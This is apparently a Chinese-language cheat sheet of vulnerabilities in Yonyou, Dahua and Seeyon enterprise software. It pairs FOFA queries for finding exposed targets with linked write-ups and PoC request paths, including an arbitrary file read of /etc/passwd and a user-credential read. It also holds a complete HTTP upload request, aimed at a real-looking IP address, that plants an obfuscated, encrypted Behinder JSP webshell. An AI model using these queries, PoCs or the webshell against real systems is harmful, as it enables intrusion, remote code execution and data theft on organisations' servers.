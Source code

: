 # 重点漏洞

------

## 用友

### 用友移动管理系统文件上传

> fofa:`app="用友-移动系统管理"`

[链接](https://blog.csdn.net/qq_41904294/article/details/132251036)

### 用友时空KSOA

> fofa:`app="用友-时空KSOA"`

- sql注入
- imagefield_sql注入
[链接](https://blog.csdn.net/qq_41904294/article/details/132265884)

### 用友GRP-U8

> fofa:`app="用友-GRP-U8"`

- logs敏感信息泄露

暂无

### 用友NC-grouptemplet接口文件上传

暂无

### 用友NC-Cloud

- Jsinvoke文件上传
- bsh_servlet_BshServlet命令执行

暂无

### 用友移动管理系统appmanager文件上传

### 用友移动管理系统category文件上传

暂无

### 用友U8+CRM文件上传读取漏洞

> fofa:`app="用友-U8CRM"`

[链接](https://blog.csdn.net/m0_43397796/article/details/129206549)

### 用友U8-Cloud文件上传

> fofa:`app="用友-U8-Cloud"`

[链接](https://blog.csdn.net/weixin_51345872/article/details/129623373)

------

## 大华

### 大华智慧园区综合管理平台

> fofa:`app="dahua-智慧园区综合管理平台"` `"WPMS/asset/lib/gridster/"`

- emap文件上传
[链接](https://blog.csdn.net/qq_41904294/article/details/131740622)

- SQL注入
[链接](https://blog.csdn.net/qq_41904294/article/details/132220571)

- publishing文件上传
[链接](https://blog.csdn.net/qq_41904294/article/details/132255898)

- 任意用户密码读取

> POC:`/admin/user_getUserInfoByUserName.action?userName=system`

[链接](https://blog.csdn.net/weixin_43981050/article/details/132276011)

### 大华dss城市安防监控系统平台任意文件读取

> fofa:`title="DSS"`

> POC:`/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd`

[链接](https://blog.csdn.net/weixin_44268918/article/details/129027139)

## 致远

### 致远互联FE协作办公平台文件上传

> fofa:`app="致远互联-FE"`

> POC(从jar工具抓包的，冰蝎的后门)
> ```POST /common/uploadFile.jsp?action=save&savePath=/images/upload/&fileName=hgg.jpg&title1=%CE%C4%BC%FE%C9%CF%B4%AB&> title2=%D1%A1%D4%F1%CE%C4%BC%FE%A3%BA&allowsize=null&extName=.jsp HTTP/1.1
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
> Content-Type: multipart/form-data; boundary=00content0boundary00
> Host: 119.129.115.25:9090
> Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
> Content-Length: 2030
> Connection: close
> 
> --00content0boundary00
> Content-Disposition: form-data; name="iconFile"; filename="test.jsp"
> 
> WelCome To Tas9er JSP Console!<%@page import="sun.misc.*,javax.crypto.Cipher,javax.crypto.spec.SecretKeySpec,java.util.Random" %><%! class > goviQAwMR2ri62Jxc extends \u0043l\u0061\u0073\u0073\u004c\u006f\u0061\u0064\u0065\u0072 {goviQAwMR2ri62Jxc> (\u0043l\u0061\u0073\u0073\u004c\u006f\u0061\u0064\u0065\u0072 govp3KqqrZWWw15) {super(govp3KqqrZWWw15);} public Class govi0eN0us(byte[] > govM7F6Zuz3erMggR) {return super.d\uuuuuuuuu0065fineClass/*govDvYYdaybYmy*/(govM7F6Zuz3erMggR,0,govM7F6Zuz3erMggR.length);}} %><% out.println("Random > Garbage Data:");Random govlLZICbryATF = new Random();int gov19ej = govlLZICbryATF.nextInt(1234);int gov80D66yfAn = govlLZICbryATF.nextInt(5678);int > govlmT74tueL6 = govlLZICbryATF.nextInt(1357);int govUzNdd5PEf95 = govlLZICbryATF.nextInt(2468);out.println(gov19ej+","+gov80D66yfAn+","+govlmT74tueL6+",> "+govUzNdd5PEf95);String[] govzLTKN0Gn7mfCHr9 = new String[]{"A", "P", "B", "O", "C", "S", "D", "T"};String govKH9qYC7NCFb9NM = govzLTKN0Gn7mfCHr9[1] + > govzLTKN0Gn7mfCHr9[3] + govzLTKN0Gn7mfCHr9[5] + govzLTKN0Gn7mfCHr9[7];if (request.getMethod().equals(govKH9qYC7NCFb9NM)) {String govt9 = new String(new > B\u0041\u0053\u0045\u0036\u0034\u0044\u0065\u0063\u006f\u0064\u0065\u0072()/*govRzBFBsyIzp*/./*govQueYUs*/decodeBuffer/*govb*/> ("MTZhY2FjYzA1YWFmYWY2Nw=="));session.setAttribute("u", govt9);Cipher govsKhlgdjr0FmtVR = Cipher.getInstance("AES");govsKhlgdjr0FmtVR.init(((gov19ej * > gov80D66yfAn + govlmT74tueL6 - govUzNdd5PEf95) * 0) + 3 - 1, new SecretKeySpec(govt9.getBytes(), "AES"));new goviQAwMR2ri62Jxc(this.> \u0067\u0065t\u0043\u006c\u0061\u0073\u0073().\u0067\u0065t\u0043\u006c\u0061\u0073\u0073Loader()).govi0eN0us(govsKhlgdjr0FmtVR.doFinal(new sun.misc./> *govZMVcbv7y*/B\u0041\u0053\u0045\u0036\u0034\u0044\u0065\u0063\u006f\u0064\u0065\u0072()./*gov4saAgkqt50RJUO*/decodeBuffer(request.getReader().readLine> ()))).newInstance()/*govxmvP7zI*/.equals(pageContext);}%>%>
> --00content0boundary00--
> ```

### 致远OAM1移动协同软件命令执行

> fofa:`"M1-Server 已启动"`

> POC:没有，上检测工具找
